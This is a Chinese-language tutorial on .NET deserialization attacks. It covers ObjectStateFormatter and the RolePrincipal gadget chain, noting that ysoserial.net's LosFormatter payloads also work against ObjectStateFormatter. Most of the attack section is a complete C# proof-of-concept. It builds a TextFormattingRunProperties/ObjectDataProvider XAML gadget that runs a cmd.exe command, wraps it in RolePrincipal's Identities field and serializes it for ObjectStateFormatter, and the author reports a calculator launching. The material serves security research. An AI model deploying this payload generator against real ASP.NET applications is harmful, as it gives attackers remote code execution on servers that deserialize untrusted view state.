


# ObjectStateFormatter

ObjectStateFormatter同样用于序列化和反序列化表示对象状态的对象图。实现IFormatter、IStateFormatter。

微软官方文档指出：

> [ObjectStateFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8) is used by the [PageStatePersister](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8) class and classes that derive from it to serialize view state and control state. It is also used by the [LosFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8) class to provide object state graph formatting for various parts of the ASP.NET infrastructure.

[PageStatePersister](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8)类和[从其派生的](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.pagestatepersister?view=netframework-4.8)类使用[ObjectStateFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8)来序列化视图状态和控件状态。[LosFormatter](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8)类还使用它为ASP.NET基础结构的各个部分提供对象状态图格式。可见ObjectStateFormatter是LosFormatter的底层实现，而在ysoserial.net工具中并没有这个formatter，原因是因为在ysoserial.net工具中有这样一句话：

> We don't actually need to use ObjectStateFormatter in ysoserial.net because it is the same as LosFormatter without MAC/keys

即ObjectStateFormatter和没有设置mac/keys的LosFormatter是一样的。所以在遇到ObjectStateFormatter反序列化时直接用ysoserial.net的LosFormatter生成payload即可，除非需要mac/key。

# 序列化和反序列化

构造方法只有一个无参构造，反序列化方法同样支持直接反序列化字符串，和LosFormatter差不多，不再赘述。


# 攻击链

针对前文中多个ClaimsIdentity及其拓展的攻击链，本文继续讲解RolePrincipal、WindowsPrincipal。

## RolePrincipal

先看ysoserial.net中的payload构造


其中B64Payload存放的是TextFormattingRunPropertiesGenerator通过base64之后BinaryFormatter序列化的数据。

RolePrincipal类继承ClaimsPrincipal。在RolePrincipal的反序列化构造方法中



调用父类的Identities字段


该字段在父类反序列化时进行赋值，看父类的反序列化构造方法



调用Deserialize()，跟进


枚举info，如果键名为`System.Security.ClaimsPrincipal.Identities`时进入`this.DeserializeIdentities(info.GetString("System.Security.ClaimsPrincipal.Identities"))`


将info.GetString("System.Security.ClaimsPrincipal.Identities")的base64值转byte[]数组通过binaryformatter直接反序列化。由此造成RCE。

整个链：父类在反序列化构造时将`info.GetString("System.Security.ClaimsPrincipal.Identities")`取出的值base64转byte数组之后直接反序列化造成RCE。

自己尝试构造payload

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Claims;
using System.Text;
using System.Threading.Tasks;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace ObjectStateFormatterSerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            TextFormattingRunPropertiesMarshal calc = new TextFormattingRunPropertiesMarshal("calc");
            string b64payload;
            using (MemoryStream m = new MemoryStream())
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(m, calc);
                b64payload = Convert.ToBase64String(m.ToArray());
            }
            RolePrincipalMarshal rolePrincipalMarshal = new RolePrincipalMarshal(b64payload);
            ObjectStateFormatter objectStateFormatter = new ObjectStateFormatter();
            string p = objectStateFormatter.Serialize(rolePrincipalMarshal);
            objectStateFormatter.Deserialize(p);
        }


    }
    [Serializable]
    public class RolePrincipalMarshal : ISerializable
    {
        public RolePrincipalMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(System.Web.Security.RolePrincipal));
            info.AddValue("System.Security.ClaimsPrincipal.Identities", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
}
```

运行后弹出calc。

